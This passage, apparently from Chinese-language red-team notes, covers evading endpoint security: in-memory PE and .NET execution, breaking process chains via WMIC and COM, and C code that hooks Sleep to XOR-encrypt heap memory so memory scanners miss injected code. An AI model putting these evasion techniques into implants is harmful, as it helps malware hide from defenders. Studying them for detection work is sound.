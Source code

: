 -   利用 Inline-Execute-PE  在内存中加载运行 PE 文件
    
-   利用 BOF.NET 在内存中执行.NET 程序集文件
    

-   进程断链：断掉父子进程链
    

-   利用模拟运行断链
    
-   利用 WMIC 断链
    
-   利用 Com 断链
    

## 0x03 Memory Scanners Evasion (内存扫描规避)

### 一、检测机制

-   内存扫描：扫描内存查找注入的恶意代码，并检测进程内存空间中的可疑 API 调用
    
-   检测项：进程信息、shellcode 特征、堆栈、内存映像
    

  

### 二、规避技巧

-   睡眠混淆：hook sleep 函数，实现内存加密和解密
    

Heap  Encryption

通过 Hook Sleep 函数，睡眠期间加密堆内存规避内存扫描：

```plain
void WINAPI HookedSleep(DWORD dwMiliseconds) {
        DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
        HeapEncryptDecrypt();

        OldSleep(dwMiliseconds);

        HeapEncryptDecrypt();
        DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}
```

```plain
关键部分代码，加密堆内存：
```

```plain
static PROCESS_HEAP_ENTRY entry;
VOID HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(currentHeap, &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            XORFunction(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
```
